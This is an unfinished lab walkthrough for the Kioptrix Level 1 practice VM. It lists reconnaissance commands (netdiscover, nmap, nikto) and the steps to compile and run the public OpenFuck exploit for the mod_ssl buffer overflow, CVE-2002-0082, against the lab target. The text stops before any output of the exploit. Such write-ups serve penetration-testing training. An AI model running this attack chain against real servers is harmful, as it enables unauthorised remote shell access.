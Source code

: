 # Summary (INCOMPLETE)
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 1.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 1 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.24`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.24

Ports found open: 22, 80, 111, 139, 443, 1024

**Step 3:**
Run nikto on `192.168.1.24` to locate any points of vulnerabilities.
> nikto -h 192.168.1.24

It is found that the webserver is Apache and the current version(2.8.4) of `mod_ssl` is vulnerable to exploit.

`mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.`

Visit `https://github.com/heltonWernik/OpenLuck` and download the repository zip. It is a C  program designed to exploit the Apache webserver with mod_ssl version less than 2.8.7

**Step 4:**
Compile the file `OpenFuck.c`
> gcc -o OpenFuck OpenFuck.c -lcrypto

Next, run the exploit.
> ./OpenFuck

It will show the list of supported boxes for the target of the exploit. Since we are dealing with Apache version 1.3.20 on the target machine, we choose the box for that version only. Based on the usage text, we set number of channels to 40.
[!target_boxes.png](target_boxes.png)

> ./OpenFuck 0x6a 192.168.1.24 443 -c 40




**References:**
https://github.com/heltonWernik/OpenLuck






